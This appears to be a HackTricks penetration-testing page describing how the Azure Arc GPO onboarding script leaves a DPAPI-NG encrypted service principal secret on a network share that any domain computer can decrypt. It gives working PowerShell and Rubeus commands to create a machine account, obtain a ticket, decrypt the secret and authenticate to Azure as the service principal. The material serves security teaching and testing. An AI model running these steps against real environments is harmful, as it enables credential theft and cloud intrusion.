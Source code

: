 # Az - Arc vulnerable GPO Deploy Script

{{#include ../../../banners/hacktricks-training.md}}

### Identifying the Issues

Azure Arc allows for the integration of new internal servers (joined domain servers) into Azure Arc using the Group Policy Object method. To facilitate this, Microsoft provides a deployment toolkit necessary for initiating the onboarding procedure. Inside the ArcEnableServerGroupPolicy.zip file, the following scripts can be found: DeployGPO.ps1, EnableAzureArc.ps1, and AzureArcDeployment.psm1.

When executed, the DeployGPO.ps1 script performs the following actions:

1. Creates the Azure Arc Servers Onboarding GPO within the local domain.
2. Copies the EnableAzureArc.ps1 onboarding script to the designated network share created for the onboarding process, which also contains the Windows installer package.

When running this script, sys admins need to provide two main parameters: **ServicePrincipalId** and **ServicePrincipalClientSecret**. Additionally, it requires other parameters such as the domain, the FQDN of the server hosting the share, and the share name. Further details such as the tenant ID, resource group, and other necessary information must also be provided to the script.

An encrypted secret is generated in the AzureArcDeploy directory on the specified share using DPAPI-NG encryption. The encrypted secret is stored in a file named encryptedServicePrincipalSecret. Evidence of this can be found in the DeployGPO.ps1 script, where the encryption is performed by calling ProtectBase64 with $descriptor and $ServicePrincipalSecret as inputs. The descriptor consists of the Domain Computer and Domain Controller group SIDs, ensuring that the ServicePrincipalSecret can only be decrypted by the Domain Controllers and Domain Computers security groups, as noted in the script comments.

```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```

### Exploit

We have the follow conditions:

1. We have successfully penetrated the internal network.
2. We have the capability to create or assume control of a computer account within Active Directory.
3. We have discovered a network share containing the AzureArcDeploy directory.

There are several methods to obtain a machine account within an AD environment. One of the most common is exploiting the machine account quota. Another method involves compromising a machine account through vulnerable ACLs or various other misconfigurations.

```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

Once a machine account is obtained, it is possible to authenticate using this account. We can either use the runas.exe command with the netonly flag or use pass-the-ticket with Rubeus.exe.

```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```

By having the TGT for our computer account stored in memory, we can use the following script to decrypt the service principal secret.

```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```

Alternatively, we can use [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

At this point, we can gather the remaining information needed to connect to Azure from the ArcInfo.json file, which is stored on the same network share as the encryptedServicePrincipalSecret file. This file contains details such as: TenantId, servicePrincipalClientId, ResourceGroup, and more. With this information, we can use Azure CLI to authenticate as the compromised service principal.

## References

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{{#include ../../../banners/hacktricks-training.md}}





